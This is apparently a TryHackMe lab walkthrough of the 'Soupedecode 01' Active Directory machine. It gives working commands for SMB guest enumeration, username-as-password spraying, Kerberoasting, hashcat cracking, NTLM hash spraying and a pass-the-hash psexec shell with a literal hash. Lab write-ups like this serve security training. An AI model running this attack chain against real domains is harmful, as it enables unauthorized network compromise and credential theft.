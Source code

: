```yaml
---
title: "[TryHackMe] walkthrough: Soupedecode 01 (Active Directory)"
date: 2025-09-30
categories: [tryhackme]
tags: [thm, Windows, AD]
---
```


![title](/assets/images/tryhackme/soupedecode_01/스크린샷%202025-09-30%20오후%207.36.35.png)

## Info

- Platform: Tryhackme
- Machine Name: Soupedecode 01
- Target IP/Host: 10.10.105.3
- OS / Version: Windows (AD)
- Difficulty / Category: Easy

## Overview

Soupedecode is an intense and engaging challenge in which players must compromise a domain controller by exploiting Kerberos authentication, navigating through SMB shares, performing password spraying, and utilizing Pass-the-Hash techniques. Prepare to test your skills and strategies in this multifaceted cyber security adventure.

## Recon & Enumeration

First, scan IP with nmap.

```
┌──(kali㉿kali)-[~/thm/Soupedecode_01/recon]
└─$ sudo nmap 10.10.105.3 -n --min-rate 3000                                                       
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-30 18:37 KST
Nmap scan report for 10.10.105.3
Host is up (0.42s latency).
Not shown: 988 filtered tcp ports (no-response)
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
3389/tcp open  ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 1.93 seconds
```

It seems to be a domain controller.

I ran a more detailed scan with the -A flag.

```
PORT     STATE SERVICE       VERSION                                                                                                                         
53/tcp   open  domain        Simple DNS Plus                                                                                                                 
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-09-30 06:32:52Z)                                                                  
135/tcp  open  msrpc         Microsoft Windows RPC                                                                                                           
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn                                                                                                   
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: SOUPEDECODE.LOCAL0., Site: Default-First-Site-Name)                            
445/tcp  open  microsoft-ds?                                                                                                                                 
464/tcp  open  kpasswd5?                                                                                                                                     
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0                                                                                             
636/tcp  open  tcpwrapped                                                                                                                                    
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: SOUPEDECODE.LOCAL0., Site: Default-First-Site-Name)                            
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: SOUPEDECODE
|   NetBIOS_Domain_Name: SOUPEDECODE
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: SOUPEDECODE.LOCAL
|   DNS_Computer_Name: DC01.SOUPEDECODE.LOCAL
|   Product_Version: 10.0.20348
|_  System_Time: 2025-09-30T06:33:29+00:00
|_ssl-date: 2025-09-30T06:34:08+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=DC01.SOUPEDECODE.LOCAL
| Not valid before: 2025-06-17T21:35:42 
|_Not valid after:  2025-12-17T21:35:42 
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2022|2012|2016 (89%)
OS CPE: cpe:/o:microsoft:windows_server_2022 cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2016
Aggressive OS guesses: Microsoft Windows Server 2022 (89%), Microsoft Windows Server 2012 R2 (85%), Microsoft Windows Server 2016 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-09-30T06:33:31
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: -1s, deviation: 0s, median: -2s
```
Found the domain name and computer name.

domain name : SOUPEDECODE.LOCAL  
computer name : DC01.SOUPEDECODE.LOCAL

Mapping this info in /etc/hosts:
`10.10.105.3 SOUPEDECODE.LOCAL DC01.SOUPEDECODE.LOCAL`

I tried smb null session, but failed.
![](/assets/images/tryhackme/soupedecode_01/스크린샷%202025-09-30%20오후%206.42.59.png)

So tried smb guest login, and succeeded.
![](/assets/images/tryhackme/soupedecode_01/스크린샷%202025-09-30%20오후%206.44.33.png)

The guest account had read permission to the IPC$ share, so I performed RID enumeration.
```
nxc smb 10.10.105.3 -u guest -p "" --rid | tee rid.txt
```
![](/assets/images/tryhackme/soupedecode_01/스크린샷%202025-09-30%20오후%206.47.49.png)
-> obtained a user list.

```
cat rid.txt | cut -d '\' -f2 | cut -d ' ' -f1 >> users.txt
```

## Initial Access

(I restarted the machine, so ip has been changed)

I obtained a user list, and tried as-rep roasting (impacket-getNPUsers) but failed.  
So I attempted a password spraying using username:username.

```
nxc smb 10.10.158.202 -u users.txt -p users.txt --no-brute --continue-on-success
```

I think this was the key part of the machine.

I found one credential: ybob317:ybob317
![](/assets/images/tryhackme/soupedecode_01/스크린샷%202025-09-30%20오후%207.06.33.png)

ybob317 can read the Users share.
![](/assets/images/tryhackme/soupedecode_01/스크린샷%202025-09-30%20오후%207.08.38.png)

```
smbclient -U ybob317 //10.10.158.202/Users
```

In the Desktop folder, there was user.txt
![](/assets/images/tryhackme/soupedecode_01/스크린샷%202025-09-30%20오후%207.10.31.png)


## Privilege Escalation

With a domain user credential, I tried kerberoating.

Kerberoasting can be done with Impacket or nxc, I used nxc.
```
nxc ldap 10.10.158.202 -u ybob317 -p 'ybob317' -d SOUPEDECODE.LOCAL --kerberoasting spn_hash
```

![](/assets/images/tryhackme/soupedecode_01/스크린샷%202025-09-30%20오후%207.14.49.png)

I got hases in spn_hash, and craked them with hashcat.

```
hashcat -a 0 -m 13100 spn_hash /usr/share/wordlists/rockyou.txt
```
-> got file_svc's plain password, and file_svc can read backup share.

![](/assets/images/tryhackme/soupedecode_01/스크린샷%202025-09-30%20오후%207.18.05.png)

In backup share, found backup_extract.txt and it contains hashes.

![](/assets/images/tryhackme/soupedecode_01/스크린샷%202025-09-30%20오후%207.19.24.png)
![](/assets/images/tryhackme/soupedecode_01/스크린샷%202025-09-30%20오후%207.19.55.png)

First split the file into user and hash.
```
┌──(kali㉿kali)-[~/thm/Soupedecode_01/post]
└─$ cat backup_extract.txt | cut -d ':' -f1 > users.txt
└─$ cat backup_extract.txt | cut -d ':' -f4 > hashes.txt
```
I performed password spraying with nxc.
```
nxc smb 10.10.158.202 -u users.txt -H hashes.txt --no-brute --continue-on-success
```

![](/assets/images/tryhackme/soupedecode_01/스크린샷%202025-09-30%20오후%207.23.49.png)

FileServer$ was marked as pwn3d!

-> impacket-psexec
```
impacket-psexec 'FileServer$'@10.10.158.202 -hashes :e41da7e79a4c76dbd9cf79d1cb325559
```
I obtained system privileges and found root.txt in C:\Users\Administrator\Desktop.